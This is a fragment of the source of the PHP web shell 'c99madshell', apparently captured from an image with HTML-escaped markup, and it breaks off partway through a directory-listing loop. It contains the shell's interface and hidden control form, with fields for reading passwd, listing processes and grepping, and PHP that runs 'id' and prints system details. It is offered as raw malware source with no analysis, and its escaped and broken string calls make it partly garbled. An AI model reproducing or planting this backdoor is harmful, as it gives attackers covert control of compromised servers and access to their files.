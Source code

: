 ?&gt;&lt;html&gt;&lt;head&gt;&lt;meta http-equiv="Content-Type" content="text/html; charset=windows-1251"&gt;&lt;meta http-equiv="Content-Language" content="en-us"&gt;&lt;title&gt;&lt;?php echo getenv("HTTP_HOST"); ?&gt; - c99madshell&lt;/title&gt;&lt;STYLE&gt;TD { FONT-SIZE: 8pt; COLOR: #ebebeb; FONT-FAMILY: verdana;}BODY { scrollbar-face-color: #800000; scrollbar-shadow-color: #101010; scrollbar-highlight-color: #101010; scrollbar-3dlight-color: #101010; scrollbar-darkshadow-color: #101010; scrollbar-track-color: #101010; scrollbar-arrow-color: #101010; font-family: Verdana;}TD.header { FONT-WEIGHT: normal; FONT-SIZE: 10pt; BACKGROUND: #7d7474; COLOR: white; FONT-FAMILY: verdana;}A { FONT-WEIGHT: normal; COLOR: #dadada; FONT-FAMILY: verdana; TEXT-DECORATION: none;}A:unknown { FONT-WEIGHT: normal; COLOR: #ffffff; FONT-FAMILY: verdana; TEXT-DECORATION: none;}A.Links { COLOR: #ffffff; TEXT-DECORATION: none;}A.Links:unknown { FONT-WEIGHT: normal; COLOR: #ffffff; TEXT-DECORATION: none;}A:hover { COLOR: #ffffff; TEXT-DECORATION: underline;}.skin0{position:absolute; width:200px; border:2px solid black; background-color:menu; font-family:Verdana; line-height:20px; cursor:default; visibility:hidden;;}.skin1{cursor: default; font: menutext; position: absolute; width: 145px; background-color: menu; border: 1 solid buttonface;visibility:hidden; border: 2 outset buttonhighlight; font-family: Verdana,Geneva, Arial; font-size: 10px; color: black;}.menuitems{padding-left:15px; padding-right:10px;;}input{background-color: #800000; font-size: 8pt; color: #FFFFFF; font-family: Tahoma; border: 1 solid #666666;}textarea{background-color: #800000; font-size: 8pt; color: #FFFFFF; font-family: Tahoma; border: 1 solid #666666;}button{background-color: #800000; font-size: 8pt; color: #FFFFFF; font-family: Tahoma; border: 1 solid #666666;}select{background-color: #800000; font-size: 8pt; color: #FFFFFF; font-family: Tahoma; border: 1 solid #666666;}option {background-color: #800000; font-size: 8pt; color: #FFFFFF; font-family: Tahoma; border: 1 solid #666666;}iframe {background-color: #800000; font-size: 8pt; color: #FFFFFF; font-family: Tahoma; border: 1 solid #666666;}p {MARGIN-TOP: 0px; MARGIN-BOTTOM: 0px; LINE-HEIGHT: 150%}blockquote{ font-size: 8pt; font-family: Courier, Fixed, Arial; border : 8px solid #A9A9A9; padding: 1em; margin-top: 1em; margin-bottom: 5em; margin-right: 3em; margin-left: 4em; background-color: #B7B2B0;}body,td,th { font-family: verdana; color: #d9d9d9; font-size: 11px;}body { background-color: #000000;}&lt;/style&gt;&lt;/head&gt;&lt;BODY text=#ffffff bottomMargin=0 bgColor=#000000 leftMargin=0 topMargin=0 rightMargin=0 marginheight=0 marginwidth=0&gt;&lt;form name='todo' method='POST'&gt;&lt;input name='act' type='hidden' value=''&gt;&lt;input name='grep' type='hidden' value=''&gt;&lt;input name='fullhexdump' type='hidden' value=''&gt;&lt;input name='base64' type='hidden' value=''&gt;&lt;input name='nixpasswd' type='hidden' value=''&gt;&lt;input name='pid' type='hidden' value=''&gt;&lt;input name='c' type='hidden' value=''&gt;&lt;input name='white' type='hidden' value=''&gt;&lt;input name='sig' type='hidden' value=''&gt;&lt;input name='processes_sort' type='hidden' value=''&gt;&lt;input name='d' type='hidden' value=''&gt;&lt;input name='sort' type='hidden' value=''&gt;&lt;input name='f' type='hidden' value=''&gt;&lt;input name='ft' type='hidden' value=''&gt;&lt;/form&gt;&lt;center&gt;&lt;TABLE style="BORDER-COLLAPSE: collapse" height=1 cellSpacing=0 borderColorDark=#666666 cellPadding=5 width="100%" bgColor=#333333 borderColorLight=#c0c0c0 border=1 bordercolor="#C0C0C0"&gt;&lt;tr&gt;&lt;th width="101%" height="15" nowrap bordercolor="#C0C0C0" valign="top" colspan="2"&gt;&lt;p&gt;&lt;font face=Webdings size=6&gt;&lt;b&gt;!&lt;/b&gt;&lt;/font&gt;&lt;a href="&lt;?php echo $surl; ?&gt;"&gt;&lt;font face="Verdana" size="5"&gt;&lt;b&gt;C99madShell v. &lt;?php echo $shver; ?&gt;&lt;/b&gt;&lt;/font&gt;&lt;/a&gt;&lt;font face=Webdings size=6&gt;&lt;b&gt;!&lt;/b&gt;&lt;/font&gt;&lt;/p&gt;&lt;/center&gt;&lt;/th&gt;&lt;/tr&gt;&lt;tr&gt;&lt;td&gt;&lt;p align="left"&gt;&lt;b&gt;Software:&nbsp;&lt;?php echo $DISP_SERVER_SOFTWARE; ?&gt;&lt;/b&gt;&nbsp;&lt;/p&gt;&lt;p align="left"&gt;&lt;b&gt;uname -a:&nbsp;&lt;?php echo wordwrap(php_uname(),90,"&lt;br&gt;",1); ?&gt;&lt;/b&gt;&nbsp;&lt;/p&gt;&lt;p align="left"&gt;&lt;b&gt;&lt;?php if (!$win) {echo wordwrap(myshellexec("id"),90,"&lt;br&gt;",1);} else {echo get_current_user();} ?&gt;&lt;/b&gt;&nbsp;&lt;/p&gt;&lt;p align="left"&gt;&lt;b&gt;Safe-mode:&nbsp;&lt;?php echo $hsafemode; ?&gt;&lt;/b&gt;&lt;/p&gt;&lt;p align="left"&gt;&lt;?php
$d = str_replace("\",DIRECTORY_SEPARATOR,$d);
if (empty($d)) {$d = realpath(".");} elseif(realpath($d)) {$d = realpath($d);}
$d = str_replace("\",DIRECTORY_SEPARATOR,$d);
if (substr($d,-1) != DIRECTORY_SEPARATOR) {$d .= DIRECTORY_SEPARATOR;}
$d = str_replace("\","\",$d);
$dispd = htmlspecialchars($d);
$pd = $e = explode(DIRECTORY_SEPARATOR,substr($d,0,-1));
$i = 0;
foreach($pd as $b)
{
 $t = "";
 $j = 0;
 foreach ($e as $r)
 {
  $t.= $r.DIRECTORY_SEPARATOR;
  if ($j == $i) {break;}
  $j++;